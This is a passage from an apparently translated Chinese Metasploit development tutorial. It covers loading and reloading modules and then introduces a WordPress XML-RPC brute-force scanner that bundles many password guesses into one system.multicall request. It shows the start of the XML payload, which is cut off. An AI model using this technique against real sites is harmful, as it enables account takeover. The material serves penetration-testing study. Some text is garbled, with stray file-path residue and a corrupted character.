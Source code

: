 结果是

![](msf_template1.png)

### 加载 Metasploit 模块

要加载/重新加载您正在使用的 Metasploit 模块，您可以将脚本放在您的用户 Metasploit 路径或 Metasploit 框架路径中

+   用户的 Metasploit 路径

    ```
    ~/msf4/modules 
    ```

+   Metasploit 框架路径

    ```
    metasploit-framework/modules/ 
    ```

要使 Metasploit 加载/重新加载脚本，请使用以下方法之一

+   退出 msfconsole 然后再次运行

+   使用`reload_all`重新加载所有模块

+   如果您的模块以前已加载并对其进行了更改，只需使用`reload`，但您必须使用该模块，换句话说，`use [YOUR MODULE]`

**注意：** 了解官方 Metasploit 开发文档**（**[http://www.rubydoc.info/github/rapid7/metasploit-framework/](http://www.rubydoc.info/github/rapid7/metasploit-framework/) **）**非常重要

* * *

# 辅助模块

# 辅助模块

## 扫描器

基本扫描模块

### WordPress XML-RPC 大规模暴力破解

WordPress CMS 框架支持 XML-RPC 服务与框架中几乎所有功能进行交互。一些功能需要身份验证。主要问题在于您可以在同一请求中多次进行身份验证。WordPress 接受大约 1788 行的 XML 请求，这使我们能够在单个请求中发送大量的登录尝试。这有多棒？让我解释一下。

想象一下，你必须暴力破解一个用户的 6000 个密码？在传���的暴力破解技术中，你需要发送多少请求？是 6000 个请求。使用我们的模块只需要 4 个请求，如果使用默认的 CHUNKSIZE，即每个请求 1500 个密码！！！没有多线程，即使你在传统的暴力破解技术中使用多线程，你也只会发送少量的并行请求。

```
<?xml version="1.0"?>
<methodCall>
<methodName>system.multicall</methodName>
<params>
 <param><value><array><data>

  <value><struct>
  <member>
    <name>methodName</name>
    <value><string>wp.getUsersBlogs</string></value>
  </member>
  <member>
    <name>params</name><value><array><data>
     <value><array><data>
      <value><string>"USER #1"</string></value>
      <value><string>"PASS #1"</string></value>
     </data></array></value>
```
